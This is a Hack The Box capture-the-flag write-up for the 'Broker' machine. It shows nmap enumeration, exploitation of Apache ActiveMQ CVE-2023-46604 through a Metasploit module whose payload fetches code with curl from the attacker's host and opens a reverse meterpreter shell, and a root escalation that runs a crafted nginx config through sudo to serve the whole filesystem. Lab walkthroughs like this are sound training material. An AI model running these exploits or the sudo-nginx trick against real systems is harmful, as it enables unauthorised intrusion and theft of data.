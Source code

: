 # Challenge Name

<p align="center"><img src="assets/Broker.png" width="400"></p>

-   **Platform:** Hack The Box
-   **URL:** https://app.hackthebox.com/machines/Broker
-   **Difficulty:** Easy
-   **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
ip=10.10.11.243;ports=$(sudo nmap -p- --min-rate=1000 -T4 $ip | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//); sudo nmap -p$ports -sC -sV $ip

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1412/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     ActiveMQ/Advisory/Consumer/Topic/#:
|_    ActiveMQ/Advisory/MasterBroker:
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
6969/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
7000/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 404 Not Found
8001/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 404 Not Found
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
8999/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
42459/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings:
|   HELP4STOMP:
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
| http-methods:
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings:
|   NULL:
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion
|_    5.15.15
```

</details>

## Foothold

### Web → `activemq` 🚩

#### Searching for Vulnerabilities

-   the nmap output shows, that the server uses **Apache ActiveMQ 5.15.15**, which is vunerable to _CVE-2023-46604_

#### Exploitation

1. We can exploit the vulnerability with the Metasploit module `multi/misc/apache_activemq_rce_cve_2023_46604`:

    - <details>
        <summary>Metasploit module options</summary>

        ```
        Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

           Name     Current Setting  Required  Description
           ----     ---------------  --------  -----------
           RHOSTS   10.10.11.243     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploi
                                               t.html
           RPORT    61616            yes       The target port (TCP)
           SRVHOST  10.10.14.89      yes       The local host or network interface to listen on. This must be an address on the local machine o
                                               r 0.0.0.0 to listen on all addresses.
           SRVPORT  8080             yes       The local port to listen on.
           SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
           URIPATH                   no        The URI to use for this exploit (default is random)

        Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

           Name                Current Setting  Required  Description
           ----                ---------------  --------  -----------
           FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
           FETCH_DELETE        false            yes       Attempt to delete the binary after execution
           FETCH_FILENAME      BUcBIHQhp        no        Name to use on remote system when storing payload; cannot contain spaces.
           FETCH_SRVHOST                        no        Local IP to use for serving payload
           FETCH_SRVPORT       8080             yes       Local port to use for serving payload
           FETCH_URIPATH                        no        Local URI to use for serving payload
           FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
           LHOST               10.10.14.89      yes       The listen address (an interface may be specified)
           LPORT               4444             yes       The listen port

        Exploit target:

           Id  Name
           --  ----
           1   Linux
        ```

          </details>

2. Reverse shell access for user `activemq` 🚩

## Privilege Escalation

### `activemq` → `root` 🏁

#### Searching for Vulnerabilities

- `sudo -l` shows, that we can run `nginx` as `root`:
    
    ```
    User activemq may run the following commands on broker:
        (ALL : ALL) NOPASSWD: /usr/sbin/nginx
    ```

#### Exploitation

1. We can create our own configuration `/tmp/nginx.conf`, which allows us to access every file on the system:
    
    ```
    user root;
    
    events {
        worker_connections 1024;
      }
      http {
        server {
          listen 1337;
          root /;
          autoindex on;
          dav_methods PUT;
    	}
    }
    ```
2. After starting the nginx server with `sudo nginx -c /tmp/nginx.conf`, we can access `http://10.10.11.243:1337/root/root.txt` to get the root flag. 🏁